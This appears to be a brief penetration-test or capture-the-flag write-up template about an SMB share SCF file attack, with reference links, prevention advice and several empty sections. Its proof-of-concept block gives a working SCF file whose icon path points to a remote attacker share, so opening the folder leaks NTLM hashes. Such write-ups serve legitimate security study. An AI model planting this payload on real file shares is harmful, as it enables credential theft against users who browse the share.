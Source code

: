 



### Nmap Scan Results: 


### Initial Shell Vulnerability Exploited: 
- [SMB Share - SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).
- [USING A SCF FILE TO GATHER HASHES](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/).
- [Forced Authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication).

### Vulnerability Explanation: 

### Vulnerability Prevention: 
- Disallow write permissions in file shares for unauthenticated users
- Use of Kerberos Authentication and SMB Signing
- Ensure that NTLMv2 password hash is used instead of LanMan

### Severity: High

### Proof of Concept Code Here:
```
[Shell]
Command=2
IconFile=\\IP\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

